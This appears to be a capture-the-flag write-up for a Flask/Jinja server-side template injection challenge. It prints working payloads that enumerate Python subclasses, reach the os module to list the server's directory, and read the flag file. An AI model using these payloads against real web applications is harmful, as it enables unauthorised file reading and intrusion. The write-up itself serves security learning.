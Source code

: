 # Web_python_template_injection

![Screenshot from 2021-07-25 18-08-42](https://user-images.githubusercontent.com/87865134/126896955-fc1c1441-180b-4daa-9181-fa172b318e12.png)

- Template: Flask/Jinja

## 1. Check Template Injection

![Screenshot from 2021-07-25 18-11-00](https://user-images.githubusercontent.com/87865134/126897023-cb8a1879-4247-4b7f-9448-785877ed0b59.png)

## 2. Injection code:
  - **List all class in python template:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()}}
    ```  
  ![Screenshot from 2021-07-25 18-15-21](https://user-images.githubusercontent.com/87865134/126897148-4edb3571-1544-4d6d-afa8-bc492fa7a88e.png)

  - **List file in current directory:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
    ```  
   ![Screenshot from 2021-07-25 18-20-06](https://user-images.githubusercontent.com/87865134/126897262-84880017-207c-4c76-acae-f940d6d1580b.png)

  - **Read content of file fl4g:**  
    ```python
    {{().__class__.__bases__[0].__subclasses__()[40]('fl4g').read()}}
    ```   
   ![Screenshot from 2021-07-25 18-23-19](https://user-images.githubusercontent.com/87865134/126897330-df52606d-61db-4505-9307-fb81bed61ab9.png)

 ## - Decription:
  - > category: Server-side template injection
 
 ## - Reference:
  - [Python Built-in Types](https://docs.python.org/3/library/stdtypes.html#class.__bases__)
  - [Python magic method - HackTrick](https://book.hacktricks.xyz/misc/basic-python/magic-methods)
  - **__globals__**: A reference to the dictionary that holds the function’s global variables — the global namespace of the module in which the function was defined
